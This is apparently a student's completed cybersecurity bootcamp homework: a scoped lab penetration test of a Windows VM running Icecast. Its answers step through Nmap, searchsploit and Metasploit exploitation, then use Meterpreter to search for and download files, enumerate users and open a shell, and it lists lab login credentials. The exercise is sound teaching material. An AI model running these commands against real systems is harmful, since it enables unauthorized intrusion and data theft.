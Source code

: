 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- A full report of this engagement can be found at the bottom. 


#### Setup 

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer. 
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`. 

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.
 
- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.
 
#### Scope
 
- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.
 
- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited. 
 
- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.
 
- Since you've already been provided access to the network, OSINT won't be necessary.
 
#### Lab Environment
 
For this week's homework, please use the following VM setup:
 
- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document: 
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > `Answer: \nmap -sV 192.168.0.20`

      <img src="Images/Capture1.PNG"/>

      <img src="Images/Capture2.PNG"/>
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > `Answer: searchsploit icecast` 

        <img src="Images/Capture3.PNG"/>

        <img src="Images/Capture11.PNG"/>


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > `Answer: msfconsole`

     <img src="Images/Capture4.PNG"/>
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > `Answer: search icecast`

     <img src="Images/Capture5.PNG"/>
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > `Answer: use 0`

     <img src="Images/Capture6.PNG"/>
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > `Answer: set RHOST 192.168.0.20`

     <img src="Images/Capture7.PNG"/>
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > `Answer: run`

     <img src="Images/Capture8.PNG"/>
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > `Answer: search -f *secret*.txt`

     <img src="Images/Capture9.PNG"/>
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > `Answer: search -f *recipe*.txt`
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      >`Answer: download c:\Users\IEuser\Documents\Drinks.recipe.txt'

      
     <img src="Images/Capture12.PNG"/>
  

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  >`Answer: run post/windows/gather/enum_logged_on_users`
                                           
     
B. Open a Meterpreter shell. 
 
  > `Answer: shell`

  <img src="Images/Capture13.PNG"/>
 
C. Run the command that displays the target's computer system information:

   > `Answer: exit to meterpreter and run: sysinfo` 

   <img src="Images/Capture10.PNG"/>

<br>
<br>

## A full report can be found here: [GoodSecurity Penetration Test Report](./GoodSecurity_Penetration_Test_Report.PDF)

- [GoodSecurity Penetration Test Report](PenTestingEngagement/GoodSecurity_Penetration_Test_Report.pdf)


---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
